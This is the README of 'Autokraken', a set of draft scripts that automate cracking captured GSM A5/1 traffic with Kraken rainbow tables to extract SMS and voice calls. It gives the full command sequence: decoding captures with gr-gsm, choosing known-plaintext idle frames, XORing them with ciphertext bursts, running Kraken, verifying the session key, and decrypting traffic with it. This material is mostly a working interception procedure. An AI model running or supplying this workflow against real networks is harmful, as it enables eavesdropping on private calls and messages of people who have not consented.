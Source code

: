 # Autokraken

_Warning: those are currently dirty drafts.  It works for us but would need to be heavily reviewed to work any other platform._

A set of scripts to automate the cracking of captured GSM/G2 network traffic with Kraken, and to extract SMS and voice calls out of it.  This is not frequency hopping capable.

## Requirements

Few command line utilities

        which sed
        which awk
        which grep
        which cut
        which wc

Few packages for stage 1

        apt install python3 tcpdump tshark gr-gsm -y

Optionally `gsmframedecoder` when dealing with SI5,6 instead of idling frames, but then you would also need the legacy Airprobe code to get the HEX version of the bursts

And of course Kraken with ready to serve rainbow table indexes

## Introduction

Check that you don't see much after Cipher Mode Command and get the bitstrings at once

        wireshark -k -Y 'gsmtap' -i lo &
	grgsm_decode --cfile=$arfcn.cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub \
		--print-bursts > $arfcn.cfile.${slot}S

Also have a look at Timing Advance in case it is not `x00` already.

You can separate stage 1 and 2 for resp. capturing and cracking.  Simply send the bitstring file from the former to the latter to proceed.

## Stage 1 - define your known plain-text

_requires GR-GSM and a cfile_

Seeking for idle frames

        cd /root/KRAKEN/autokraken/stage1/
	arfcn=
        cfile=/root/capture/$arfcn.cfile
	ls -lF $cfile

Extract 0C and find out about the SDCCH timeslot (TODO: and subchannel)

	./json0C $cfile $arfcn
	./parse.py 0C $cfile.0C.json

	slot=1

Look for idling frames around the Ciphering Mode Command

	./jsonXS $cfile $arfcn $slot
	./parse.py XS $cfile.${slot}S.json

	plainframe=

Obsolete - produce the burst bitstrings with frame references (it's already there)

        #./bitstringsXS $cfile $arfcn $slot
        ls -lF $cfile.${slot}S

Eventually send the bitstring file to the Kraken server.

	scp $cfile.${slot}S kraken:/root/capture/

## Stage 2 - define your target cipher-text

_requires Kraken and the bitstring file_

	cd /root/KRAKEN/autokraken/stage2/
	string=/root/capture/$arfcn.cfile.1S
	echo $plainframe

Tune your path against Kraken and Utilities

        vi feedcrack.conf

	kraken=/root/KRAKEN/kraken

XOR plain bitstrings with cipher bitstrings

	#./getemptyframeplain $cfile.${slot}S $plainframe
	#./getemptyframecipher $cfile.${slot}S $plainframe
	./feedemptyframe $string $plainframe
	ls -lF /root/capture/$arfcn.cfile.1S.*.emptyframe*

Feed those into Kraken interactivelty

	ls -lF /dev/sdb2
	ls -lF /root/KRAKEN/kraken/indexes/
	head /root/capture/66.hrf.cfile.1S.816538.emptyframe234

	screen -S KRAKEN
	cd /root/KRAKEN/kraken/Kraken/
	./kraken ../indexes

	crack <xored bitstring>

## Stage 2 semi-automated

        cd /root/KRAKEN/kraken/Kraken/
        ./kraken ../indexes < /root/capture/$arfcn.cfile.1S.$plainframe.emptyframe234

## Stage 2 automated

	./crack $cfile.${slot}S $plainframe

## Stage 3 - verify the key

Tune the hardcoded path against Utilities

	cd /root/KRAKEN/autokraken/stage3/
	vi feedkc

	utilspath=/root/KRAKEN/kraken/Utilities

reach back to the previous frame number and xored bitstring to feed the key check

	./feedkc <xored bitstring> /root/capture/$arfcn.cfile.1S.$plainframe.emptyframe1234

COPY/PASTE THE KEY AND @ E.G.

	/root/KRAKEN/kraken/Utilities/find_kc <FOUND KEY> <BITOPS> <BURST FRAME NUMBER> <PREV BURST FRAME NUMBER> <PREV BURST XORED BITSTRING>

## Conclusion

You can now sniff into the ciphered text

	grgsm_decode --cfile=$cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub \
		--a5=1 --kc=KEY-HERE

## Resources

GSM Cracking: SMS w/ Kraken – Software Defined Radio Series #16
https://www.crazydanishhacker.com/gsm-cracking-sms-kraken-software-defined-radio-series-16/

